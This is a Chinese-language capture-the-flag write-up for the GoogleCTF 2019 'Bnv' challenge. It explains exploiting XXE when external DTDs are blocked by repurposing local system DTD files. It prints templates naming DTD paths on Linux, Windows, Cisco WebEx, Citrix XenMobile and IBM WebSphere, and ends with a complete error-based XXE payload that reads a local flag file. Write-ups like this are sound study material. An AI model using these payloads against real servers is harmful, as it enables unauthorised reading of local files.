



# GoogleCTF2019Quals-Bnv

参考博客：https://blog.csdn.net/weixin_49656607/article/details/126388372

首先打开页面。



先抓个包看看。发现传参json格式数据， 可以尝试xxe，先将content-type改为application/xml，然后再把json格式的数据改为xml格式的数据。



但是发现基本的xxe和远程无回显的xxe都不行。

然后查wp发现，这里目标不能加载外部dtd，所以普通的xxe不行，但是可以利用linux本身的dtd。

---

## 本地的DTD文件

[---------------利用XXE与本地DTD文件----------------](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)

### 定制Linux系统

```
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamsa ' 

Your DTD code

 '>
%local_dtd;
```

### 自定义Windows系统

```
<!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd">
<!ENTITY % SuperClass '>

Your DTD code

<!ENTITY test "test"'>
%local_dtd;
```

### 思科网讯

```
<!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd">
<!ENTITY % url.attribute.set '> 

Your DTD code 

<!ENTITY test "test"'>
%local_dtd;
```

### Citrix XenMobile服务器

```
<!ENTITY % local_dtd SYSTEM "jar:file:///opt/sas/sw/tomcat/shared/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd">
<!ENTITY % Body '>

Your DTD code

<!ENTITY test "test"'>
%local_dtd;
```

### 任何Web应用程序在IBM WebSphere Application Server

```
<!ENTITY % local_dtd SYSTEM "./../../properties/schemas/j2ee/XMLSchema.dtd">
<!ENTITY % xs-datatypes '

Your DTD code

'>
<!ENTITY % simpleType "a">
<!ENTITY % restriction "b">
<!ENTITY % boolean "(c)">
<!ENTITY % URIref "CDATA">
<!ENTITY % XPathExpr "CDATA">
<!ENTITY % QName "NMTOKEN">
<!ENTITY % NCName "NMTOKEN">
<!ENTITY % nonNegativeInteger "NMTOKEN">
%local_dtd;
```

---

## payload

所以我们这里使用Linux自带的dtd文件。

```
<?xml version="1.0" ?>
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamsa '
	<!ENTITY &#x25; file SYSTEM "file:///flag">
	<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
	&#x25;eval;
	&#x25;error;
'>
%local_dtd;
]>
```

拿到flag




